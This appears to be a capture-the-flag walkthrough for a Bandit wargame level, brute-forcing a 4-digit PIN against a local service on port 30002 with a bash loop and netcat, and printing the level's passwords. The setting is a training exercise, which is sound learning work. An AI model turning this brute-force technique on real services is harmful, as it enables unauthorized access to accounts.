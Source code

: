 We need to bruteforce a 4-digit pin, feeding it to port 30002. One of the pins
will give us the password to bandit25. All others will fail.

First, let's see what the port has to say.

bandit24@bandit:~$ nc localhost 30002         
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

Alright. Let's do this. Let's generate a file full of entries to feed the port.

bandit24@bandit:~$ for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> /tmp/gu5ok4Do; done

Now let's feed it to the port.

bandit24@bandit:~$ nc localhost 30002 < /tmp/gu5ok4Do
-snip-
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
